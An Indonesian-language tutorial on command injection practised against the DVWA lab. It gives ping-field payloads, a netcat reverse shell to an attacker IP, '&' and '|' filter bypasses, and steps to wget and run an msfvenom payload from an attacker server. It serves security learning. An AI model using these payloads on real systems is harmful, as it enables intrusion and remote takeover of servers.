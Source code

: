# Command Injection

Command Injection adalah celah keamanan yang memungkinkan penyerang mengeksekusi perintah sistem melalui input yang tidak difilter dengan baik.

Untuk belajar, kita bisa coba di aplikasi web untuk belajar misalnya DVWA.

## Eksploitasi

Misalnya ada fitur ping IP, dan kita input:

```
192.168.1.99
```

Output-nya akan menampilkan hasil seperti kita melakukan commmand:

```
ping 192.168.1.99
```

Jika input tidak divalidasi dengan baik, kita bisa menyisipkan perintah tambahan.

### Tingkat: Low

Contoh payload:

```
192.168.1.99; ls -la
```

Reverse shell:

```
192.168.1.99; nc -e /bin/bash 192.168.1.100 12345
```

Langkah-langkah:

1. **Buka listener terlebih dahulu** di mesin attacker:

```
nc -lvp 12345
```

2. **Masukkan payload** ke input form target.

### Penjelasan:

- `;` digunakan untuk menambahkan perintah setelah perintah ping.

- Perintah `nc -e /bin/bash` akan membuat reverse shell ke IP dan port yang kita tentukan.

### Tingkat: Medium

Pada level ini, karakter seperti `;` dan `&&` terkena filter oleh aplikasi.

Alternatif yang bisa digunakan:

- `&`
- `|`

Contoh payload:

```
192.168.1.99 & ls -la
```

```
192.168.1.99 | ls -la
```

Efektivitas bergantung pada bagaimana aplikasi memproses input dan filter yang diterapkan.

## Studi Kasus

1. **Buat web server** yang berisi payload buatan kita menggunakan `msfvenom`.

2. **Taruh file payload** di path `/payload.py` sehingga dapat diakses dari server attacker (misalnya 192.168.1.99):

    ```
    http://192.168.1.99/payload.py
    ```

3. **Gunakan celah Command Injection** di target untuk mendownload payload:

    ```
    ; wget 192.168.1.99/payload.py
    ```

4. **Jalankan payload** di target (pastikan server attacker sudah membuka listener):

    ```
    ; python payload.py
    ```

5. **Server attacker menerima permintaan koneksi** dari server target setelah payload dijalankan.

## 📚 Belajar

[owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
